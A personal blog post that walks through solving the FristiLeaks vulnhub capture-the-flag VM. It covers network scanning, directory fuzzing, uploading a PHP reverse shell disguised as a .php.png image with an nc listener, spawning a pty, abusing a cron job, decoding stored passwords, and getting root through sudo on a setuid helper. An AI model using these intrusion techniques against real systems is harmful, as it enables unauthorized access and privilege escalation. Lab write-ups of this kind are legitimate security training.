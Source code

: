 ```yaml
---
layout: post
title:  "vulnhub fristileaks vm"
date:   2016-06-01 00:00:10 +0000
categories: vulnhub
---
```

<p>Fun VM and did it on time! <a href="https://www.vulnhub.com/entry/fristileaks-13,133/">Fristileaks</a>
<p>So, the usual stuff:
{% highlight bash %}
sudo netdiscover -r 192.168.0.0/16
{% endhighlight %}
<p> My target is 192.168.1.90 .
{% highlight bash %}
sudo nmap -O -sT 192.168.1.90
{% endhighlight %}
<pre>
Starting Nmap 6.47 ( http://nmap.org ) at 2016-06-01 22:16 WEST
Nmap scan report for 192.168.1.90
Host is up (0.00052s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:A5:A6:76 (Cadmus Computer Systems)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.10
Network Distance: 1 hop
</pre>
<p> Found a port 80 open. Opened it in firefox and simple page with a image.
{% highlight bash %}
python wfuzz.py -c -z file,wordlist/general/common.txt --hc 404   http://192.168.1.90/FUZZ
{% endhighlight %}
<p>Only found one dir, "images".
<p>In that dir, there was an image http://192.168.1.90/images/3037440.jpg saying "this is not the url you're looking for" ... so what is the url ? Maybe hidden in the image as metadata?
{% highlight bash %}
exiftool 3037440.jpg
{% endhighlight %}
<p>Nope.
<p>After a while ... a long while, trying to think how to find the correct url i fired nmap and nikto, maybe they could help me.
{% highlight bash %}
sudo nmap -A 192.168.1.90
{% endhighlight %}
<p>Found some Paths! Like /cola /sisi /beer ... nothing really. Neither one was helping showing the same image grrr...
{% highlight bash %}
./nikto.pl -mutate 1 -h 192.168.1.90
./nikto.pl -mutate 1,2,3,4,5,6 -h 192.168.1.90
{% endhighlight %}
<p>A big "nope". After another longgg while it hit me!! "/cola", "/beer" and the "Keep calm and drink fristi"!DUH! So, http://192.168.1.90/fristi/
<p> A login-password form finally and an image! I did a view source and found a comment made by the programmer called eezeepz  and a meta tag. I first pointed at the meta tag saying:
<pre>
super leet password login-test page. We use base64 encoding for images so they are inline in the HTML. I read somewhere on the web, that thats a good way to do it."
</pre>
<p>Scrolling down ther was some base64 code commented. Well i tried to insert that code in the image binary and it returned an image saying something like "kekekekekKEKEKEKEK". "what is this?" I thought, "this can't be a password" but i tried it anyway, login: the user in the comment, password the text in the image and...
<p>Login!
<p>Now i could upload a file, the server runs php so i thought of php-reverse-shell upload... error file format not accepted. However, i knew some versions allow something like XXX.php.png and it will run the php code! I renamed it to .png and use the usual suspect for waiting a connection:
{% highlight bash %}
nc -lnvvp 12344
{% endhighlight %}
<p>Firefox pointing to http://192.168.1.90/fristi/uploads/php-reverse-shell.php.png and
<p>SHELL!
{% highlight bash %}
uname -a
{% endhighlight %}
<pre>
Linux localhost.localdomain 2.6.32-573.8.1.el6.x86_64 #1 SMP Tue Nov 10 18:01:38 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
</pre>
<p>Walking down the /home got to eezeepz home dir, and it had some notes.txt on it:
<pre>
o EZ,

I made it possible for you to do some automated checks,
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The
output goes to the file "cronresult" in /tmp/. It should
run every minute with my account privileges.

- Jerry
</pre>
<p>But the shell was bothering so:
{% highlight bash %}
python -c 'import pty; pty.spawn("/bin/bash");'
{% endhighlight %}
<p>Ok, i knew i had to use this, but how ? So at my second try doing something useful i tried:
{% highlight bash %}
echo "/home/admin/chmod 777 /home/admin" >runthis
{% endhighlight %}
{% highlight bash %}
cd /home/admin
ls -la
whoisyourgodnow.txt <- fristigod is owner hmm
{% endhighlight %}
<p> Some pass. A encrypt file in python ... should i made a decrypt ?
<p>i did , and got login for admin:
<pre>
import base64,codecs,sys

#def encodeString(str):
#    base64string= base64.b64encode(str)
#    return codecs.encode(base64string[::-1], 'rot13')

#cryptoResult=encodeString(sys.argv[1])
#print cryptoResult

print "----"

def decodeString(str):
   x=codecs.decode(str[::-1],'rot13')
   return base64.b64decode(x)

a=decodeString(sys.argv[1])
print a
</pre>
<p>And password for admin is: thisisalsopw123
<p>Then tried that crypted file owned by fristigod and got another password! :) The password was LetThereBeFristi!
<p>I was feeling very smart at this moment.. i thought that the fristi<b>god</b> would have some useful files on his home... eh, I still needed root! So more exploring, now I was in fristigod home...wtf nothing. not even hidden.
<p> So i searched for files owned by the user:
<pre>
find / -user fristigod  
</pre>
<p> Something hidden in /var ... and a root executable, doCom ? tried to run obviously and:
{% highlight bash %}
Nice try, but wrong user ;)
{% endhighlight %}
<p>ehehe, fristigod can't sudo.. can admin ? noooo. Can i change permission of it like i did for home? i doubt it, but tried it: nah.
<p>After hitting my head for a while i decided to view .bash_history in /var/fristigod
{% highlight bash %}
"nothing"
"nothing"
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
"nothing, wait what ?"
{% endhighlight %}
<p>Big duh! again. I tried and it needed a parameter.NO PROBLEM, take this:
{% highlight bash %}
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom /bin/sh
{% endhighlight %}
<p>ROOT!
<p>Now where is my flag!
<pre>
sh-4.1# cd /root
cd /root
sh-4.1# ls
ls
fristileaks_secrets.txt
sh-4.1# cat fristileaks_secrets.txt
cat fristileaks_secrets.txt
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]

I wonder if you beat it in the maximum 4 hours it's supposed to take!

Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)


Flag: Y0u_kn0w_y0u_l0ve_fr1st1


sh-4.1#
</pre>
<p>WEEEEEE! Trully fun, no need for exploits just bad configurations! It was my first VM from start to end without advice, so i can say it was special :)
<p>Time to check other people solutions!
